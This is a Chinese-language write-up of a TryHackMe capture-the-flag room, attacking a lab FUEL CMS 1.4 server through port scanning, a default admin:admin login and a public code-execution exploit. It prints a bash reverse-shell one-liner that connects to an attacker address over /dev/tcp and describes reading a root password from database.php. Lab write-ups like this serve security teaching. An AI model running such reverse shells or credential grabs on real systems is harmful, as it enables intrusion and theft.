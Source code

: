 ![image-20250528154906415](E:\Tryhackme_Wp\CTF-Easy\assets\image-20250528154906415.png)

我们首先根据ip进行端口扫描

![image-20250528155706768](E:\Tryhackme_Wp\CTF-Easy\assets\image-20250528155706768.png)

最开始简单的使用了fscan进行端口扫描。发现只开放了80端口，我是不敢想象的，怀疑端口扫描的不准确，又开始用nmap进行端口探测

推荐使用官方的kali进行扫描：https://tryhackme.com/room/kali

通过nmap的扫描的确发现没有端口

```
┌──(root㉿kali)-[~]
└─# nmap 10.10.96.*** -sS -sV -A -T4 -p-
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
```

我们看到了robots.txt文件

![image-20250528161821006](E:\Tryhackme_Wp\CTF-Easy\assets\image-20250528161821006.png)

根据dirsearch扫描出的结果，我们去看一下具体的情况

![image-20250528161802536](E:\Tryhackme_Wp\CTF-Easy\assets\image-20250528161802536.png)

我们结合一下收集的信息

```
Apache httpd 2.4.18 ((Ubuntu))
FUEL CMS 1.4
目录：fuel
php
```

我们直接去访问fuel，发现跳转到一个登录页面

准备随便测一下弱口令的，没想到直接进去了......admin：admin

![image-20250528162111668](E:\Tryhackme_Wp\CTF-Easy\assets\image-20250528162111668.png)

随便看了一看，没什么东西，似乎有文件上传的地点，但是似乎要传指定的变量

进而直接上网去找对应的poc

![image-20250528162627369](E:\Tryhackme_Wp\CTF-Easy\assets\image-20250528162627369.png)

看到有很多1.4版本的代码执行，我们直接去试试。

![image-20250528163618885](E:\Tryhackme_Wp\CTF-Easy\assets\image-20250528163618885.png)

修改一下参数，发现成功执行了。

```
bash -c "exec bash -i >& /dev/tcp/10.8.137.162/4444 0>&1"
```

我们使用下面的命令进行反弹shell

![image-20250528164349255](E:\Tryhackme_Wp\CTF-Easy\assets\image-20250528164349255.png)

发现当前是www—data用户

![image-20250528165137605](E:\Tryhackme_Wp\CTF-Easy\assets\image-20250528165137605.png)

我们在一个文件中发现了root密码，使用linpeas也可以发现这个。

/var/www/html/fuel/application/config中的database.php

![image-20250528165500386](E:\Tryhackme_Wp\CTF-Easy\assets\image-20250528165500386.png)

这样我们就可以读取到密码了。